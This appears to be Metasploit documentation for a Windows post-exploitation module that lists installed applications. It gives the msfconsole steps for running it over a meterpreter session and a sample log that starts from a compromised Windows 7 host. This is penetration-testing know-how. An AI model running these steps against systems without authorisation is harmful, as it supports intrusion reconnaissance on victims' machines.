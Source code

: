 ## Vulnerable Application

  This module will enumerate all installed applications on a Windows system.

## Verification Steps
  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_applications`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

  ```
  SESSION
  ```
  The session to run this module on.

## Scenarios

### A run on Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-10 14:18:44 -0700

  msf exploit(windows/smb/group_policy_startup) > use post/windows/gather/enum_applications
  msf post(windows/gather/enum_applications) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/enum_applications) > run

    [*] Enumerating applications installed on MSF-PC

    Installed Applications
    ======================

      Name                Version
      ----                -------
      PuTTY release 0.73  0.73.0.0
      PuTTY release 0.73  0.73.0.0


    [+] Results stored in: /root/.msf4/loot/20191211092812_default_192.168.1.4_host.application_951840.txt
    [*] Post module execution completed
    ```
